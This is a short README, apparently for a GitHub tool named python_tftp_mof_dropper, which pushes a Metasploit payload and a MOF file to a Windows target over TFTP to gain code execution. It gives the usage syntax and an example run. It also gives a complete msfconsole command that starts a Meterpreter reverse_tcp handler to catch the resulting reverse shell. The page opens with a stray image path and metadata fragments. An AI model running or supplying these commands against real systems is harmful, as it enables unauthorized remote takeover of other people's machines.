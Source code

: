 # python_tftp_mof_dropper

Transfers a MOF file and a payload via tftp to the target. Uses metasploit to generate the payload and the [tftpy](https://github.com/msoulier/tftpy) tftp library.

Usage:
```
python tftp_mof_dropper.py
usage: tftp_mof_dropper.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST
                           [--lport LPORT] [--exe_rfile EXE_RFILE]
                           [--mof_rfile MOF_RFILE] [--msf_payload MSF_PAYLOAD]
```

Example:
`python tftp_mof_dropper.py --rhost 1.2.3.4 --lhost 5.6.7.8`

Note: you must run a metasploit handler or netcat listener (depending on the payload you use) which captures the incoming reverse shell before executing the script. Create it with e.g. `msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 0.0.0.0; run' -q`
